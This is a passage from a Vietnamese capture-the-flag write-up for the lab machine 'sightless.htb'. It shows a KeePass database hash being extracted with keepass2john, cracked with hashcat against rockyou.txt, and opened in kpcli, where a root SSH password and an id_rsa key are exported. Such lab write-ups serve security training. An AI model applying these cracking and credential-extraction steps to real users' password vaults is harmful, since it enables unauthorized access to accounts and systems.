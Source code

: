 ```
❯ file Database.kdb
Database.kdb: Keepass password database 1.x KDB, 8 groups, 4 entries, 600000 key transformation rounds
```

Và nó đòi mật khẩu để truy cập:

<img width="669" height="343" alt="image" src="https://github.com/user-attachments/assets/149e4762-3a1c-4c91-8c52-c74a87238c2e" />

Tôi dùng `keepass2john Database.kdb > ~/hashcat/hash.txt` để cho vào file `hash.txt` sau đó dùng `hashcat -m 13400 ~/hashcat/hash.txt ~/wordlist/rockyou.txt`

Sau 1 lúc thì ra được mật khẩu là `bulldogs`

```
❯ kpcli Database.kdb
WARNING: A KeePassX-style lock file is in place for this file.
         It may be opened elsewhere. Be careful of saving!
Provide the master password: *************************

KeePass CLI (kpcli) v4.1.2 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
General/
kpcli:/> cd General/
kpcli:/General> cd sightless.htb/
kpcli:/General/sightless.htb> cd Backup/
kpcli:/General/sightless.htb/Backup> ls
=== Entries ===
0. ssh                                                                    
kpcli:/General/sightless.htb/Backup> show ssh

Title: ssh
Uname: root
 Pass: q6gnLTB74L132TMdFCpK
  URL: 
Notes: 
Atchm: id_rsa (3428 bytes)

kpcli:/General/sightless.htb/Backup> attach ssh
Atchm: id_rsa (3428 bytes)
Choose: (a)dd/(e)xport/(d)elete/(c)ancel/(F)inish? 
Path to file: /home/namdeptrai/road_to_hecker
WARNING: file already exists: /home/namdeptrai/road_to_hecker/id_rsa
Overwrite it? [y/N] 
Saved to: /home/namdeptrai/road_to_hecker/id_rsa
Atchm: id_rsa (3428 bytes)
Choose: (a)dd/(e)xport/(d)elete/(c)ancel/(F)inish? 
kpcli:/General/sightless.htb/Backup> 
```
